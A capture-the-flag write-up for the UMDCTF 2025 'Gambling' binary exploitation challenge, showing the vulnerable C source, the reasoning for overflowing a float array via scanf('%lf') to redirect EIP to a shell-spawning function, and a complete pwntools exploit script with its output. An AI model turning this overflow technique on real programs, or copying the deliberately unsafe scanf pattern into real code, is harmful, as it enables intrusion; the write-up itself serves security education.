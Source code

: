 ```yaml
---
title: "Gambling 🎲 – Stack Overflow Exploit via Floats (UMDCTF 2025)"
tags: [CTF, binary exploitation, float overflow, pwn]
---
```


# UMDCTF 2025 - Gambling Pwn Challenge Writeup 🎲
**Author:** [@notagain_pwn](https://github.com/notagain-pwn) (RaptX team)

![CTF](https://img.shields.io/badge/CTF-UMDCTF_2025-blue)
![Challenge](https://img.shields.io/badge/Challenge-Gambling-informational)
![Category](https://img.shields.io/badge/Category-Pwn-red)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)

## Table of Contents 📚
- [Challenge Overview](#challenge-overview-) 📄
- [Source Code Analysis](#source-code-analysis-) 🔍
- [Exploitation Plan](#exploitation-plan-) 🛠️
- [Final Exploit Payload](#final-exploit-payload-) 🎯
- [Exploit Script](#exploit-script-) 🧠
- [Result](#result-) 🏆
- [Final Notes](#final-notes-) ✨

## Challenge Overview 📄

- **Binary:** gambling (i386 ELF)

**Protections:**
```
RELRO: Partial
Stack Canary: None
NX: Enabled
PIE: No
FORTIFY: Enabled
Stripped: No
```

## Source Code Analysis 🔍

```c
float rand_float() {
  return (float)rand() / RAND_MAX;
}

void print_money() {
    system("/bin/sh");
}

void gamble() {
    float f[4];
    float target = rand_float();
    printf("Enter your lucky numbers: ");
    scanf(" %lf %lf %lf %lf %lf %lf %lf", f, f+1, f+2, f+3, f+4, f+5, f+6);
    if (f[0] == target || f[1] == target || f[2] == target || f[3] == target || f[4] == target || f[5] == target || f[6] == target) {
        printf("You win!\n");
    } else {
        printf("Aww dang it!\n");
    }
}

int main(void) {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    srand(420);
    while (1) {
        gamble();
        getc(stdin);
        printf("Try again? ");
        char buf[20];
        fgets(buf, 20, stdin);
        if (strcmp(buf, "no.\n") == 0) {
            break;
        }
    }
}
```

## Exploitation Plan 🛠️

Since PIE is disabled (addresses are fixed) and there's no canary, the strategy is straightforward:

1. **Overflow the stack** until we control EIP.
2. **Overwrite EIP** with the address of `print_money()`.
3. **Trigger the shell**.

However, the overflow happens through `scanf("%lf")`, meaning we must carefully craft our input as **doubles (floating-point numbers)**.

Directly writing a pointer as a float is tricky because floating-point encoding is complicated (IEEE-754 standard).

### First Attempts: Rough Bruteforce

Due to the non-linear and complex behavior of IEEE-754 encoding combined with ASCII parsing via scanf, deriving the exact floating-point representation mathematically was impractical.

A local empirical interpolation was the fastest and most efficient approach.

Initial experiments showed:

- Sending larger float numbers would make EIP land somewhere around `0x8049400`.
- Decreasing the float values would move EIP upwards.

It was observed that:

| Input Float | Resulting EIP |
|:---|:---|
| `0.000...004869` | `0x8049400` |
| `0.000...00487`  | `0x8049515` |

Thus, the correct value to land on `0x80492c0` (address of `print_money`) was **between** those two inputs.

A direct binary crafting of a floating-point value containing the desired address would have been theoretically possible, but extremely impractical due to the complexity of IEEE-754 encoding and memory layout uncertainties.

### Precise Calculation

Instead of bruteforcing, I decided to calculate it properly.

Given:

```python
float1 = float('0.000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004869')
float2 = float('0.00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000487')

eip1 = 0x8049400
eip2 = 0x8049515
eip_target = 0x80492c0
```

We calculate:

```python
delta_eip = eip2 - eip1
delta_float = float2 - float1

ratio = delta_float / delta_eip

offset_eip = eip_target - eip1
offset_float = offset_eip * ratio

float_target = float1 + offset_float

print(f"[+] Exact float needed to reach 0x80492c0 : {float_target:.400f}")
```

Thus, we derive the precise float we need.

## Final Exploit Payload 🎯

The final value to send as the 7th number was:

```plaintext
0.0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000048678447653429606926762156265085299415604106647379534502196788585758286387045593904549590297537598720611109479754048472644682294918
```

Thus, the final payload looked like:

```plaintext
0 0 0 0 0 0 0.00000...(above float)
```

## Exploit Script 🧠

```python
from pwn import *
import struct
import argparse

context.binary = './gambling'
context.arch = 'i386'
context.log_level = 'warn'

# Argument parsing
parser = argparse.ArgumentParser()
parser.add_argument('--host', type=str, help='Remote host')
parser.add_argument('--port', type=int, help='Remote port')
args = parser.parse_args()

# Exact float string to send
exact_float_str = "0.0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000048678447653429606926762156265085299415604106647379534502196788585758286387045593904549590297537598720611109479754048472644682294918"

print("[+] Starting exploit...")

def start_process():
    if args.host and args.port:
        return remote(args.host, args.port)
    else:
        return process('./gambling')

if __name__ == "__main__":
    p = start_process()
    p.recvuntil(b'Enter your lucky numbers: ')

    # Build the payload with the exact float string as the 7th number
    payload = "0 0 0 0 0 0 " + exact_float_str
    print(f"[+] Sending payload: {payload}")
    p.sendline(payload.encode())

    p.sendline(b'id')
    print(p.recvline())
    result = p.recvline()
    if b'uid' in result:
        print("SUCCESS")
        print(result)
    p.close()
```

## Result 🏆

```bash
└──╼ $python3 exp.py --host challs.umdctf.io --port 31005
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    FORTIFY:    Enabled
    Stripped:   No
[+] Starting exploit...
[+] Sending payload: 0 0 0 0 0 0 0.0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000048678447653429606926762156265085299415604106647379534502196788585758286387045593904549590297537598720611109479754048472644682294918
b'Aww dang it!\n'
b'UMDCTF{99_percent_of_pwners_quit_before_they_get_a_shell_congrats_on_being_the_1_percent}\n'
```

## Final Notes ✨

- Classic stack overflow by mismatch between buffer type and scanf format.
- Critical to master floating point to memory corruption tricks in CTF pwn tasks.

🔙 [Back to UMDCTF 2025 Writeups](../../)
